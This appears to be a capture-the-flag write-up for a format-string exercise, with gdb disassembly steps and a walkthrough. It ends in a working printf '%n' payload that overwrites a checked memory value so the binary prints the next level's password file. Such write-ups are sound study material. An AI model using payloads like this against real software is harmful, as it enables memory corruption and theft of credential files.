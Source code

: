#Format String 2  
  
## Disassembled code  
`gdb -batch -ex "set disassembly-flavor intel" -ex "disas main" -ex "disas n" -ex "disas p" "level4" | GREP_COLOR='01;31' grep  --color=always -z 'printf\|+59\|+64'`  
![alt IMAGE] (Ressources/disassembled.png)  
  
  
##walkthrough  
At *n+59 we can see a cmp $eax with 0x1025544 and at *n+64 a jne to exit the program if the compare is not equal.  
  
if we jump from *n+64 to *n+66 and break at *n+73, we can see the system parameter is "/bin/cat /home/user/level5/.pass", if we bypass the jne at *n+59 we have the flag, but how we can do it ?  
  
If we break at *p+12 the printf parameter is our user input, the same bug as the previous exercise !  
  
Ok, "%x" print the address, and if we pass '\x41\x41\x41\x41' and break at *p+17 just after printf, and examin the top of the stack, we can see at "x/20x $esp+48" our string.  
You can use my 'loop\_address.py' to find the good parameter.  
  
ok. We have to replace the value of the 0x8049810 address, we proceed like the previous exercise in gdb:  
  
r <<\<$(python -c "print '\x10\x98\x04\x08' + '%16930112x' + '%12\$n'")  
  
ok, it's works.  
  
try this in real environment to print the flag:  
(python -c 'print "\x10\x98\x04\x08" + "%16930112x" + "%12$n"') | ./level4  

